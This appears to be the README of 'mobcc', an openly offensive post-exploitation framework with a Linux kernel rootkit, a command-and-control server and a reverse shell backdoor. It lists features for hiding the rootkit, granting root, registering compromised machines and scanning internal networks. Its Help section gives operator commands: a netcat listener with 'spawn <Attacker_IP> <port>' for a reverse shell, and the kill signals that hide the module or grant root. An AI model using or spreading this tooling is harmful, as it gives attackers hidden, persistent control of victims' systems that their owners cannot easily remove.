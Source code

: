 # mobcc

Mob CC is a post exploitation framework containing a Linux kernel rootkit, C2 server and Reverse shell with network scanning capabilities.

---

## Linux Kernel Rootkit:
  - Use the Makefile to build the module.
  - ftracer.h is a helping module which is basically trying to override the system calls. (Author: xcellerator)
  - Hide and Unhide itself from modules lists.
  - Granting root permissions by updating root credentials.
  - Creating and executing the reverse shell/backdoor which can be used to connect to a C2 server.

## Command & Control server:
  - Add new devices to the database by autocollecting IP from the Https requests.
  - Connect to the target system via reverse shell/backdoor.
  - Send commands and recieve response from the target system via reverse shell.
  - Provide list of all the commands and response from every compromised system.
  - Handle requests from multiple compromised systems simultaneously.

## Reverse shell / Backdoor:
  - When executed, request the C2 server to add this device to the database.
  - Establish the connection between the C2 server and the target system.
  - Spawn a new reverse shell on demand for different IP addresses provided by the C2 server.
  - Scan the network and open ports for potential vulnerabilities in other connected systems.

---

# Note:
  - Note that if you kill the reverse shell process then you have to install the kernel rootkit module again into the target system.
  - No one can remove the module if it's hidden.

---

# Help
  - To spawn a new shell from different device. eg:'nc -lvnp &lt;port&gt;' | 'spawn &lt;Attacker_IP&gt; &lt;port&gt;'
  - To scan the internal network from the target system. 'scan'
  - To kill the connection (reverse shell process) type. 'kill -9 &lt;pid&gt;'
  - To toggle between hide and show the kernel module. 'kill -63 1'
  - To gain root privilege in the target machine from any other attacking machine using reverse shell like above.'kill -64 1'

---


Resource: Linux Kernel rootkit
https://xcellerator.github.io/posts/linux_rootkits_01/
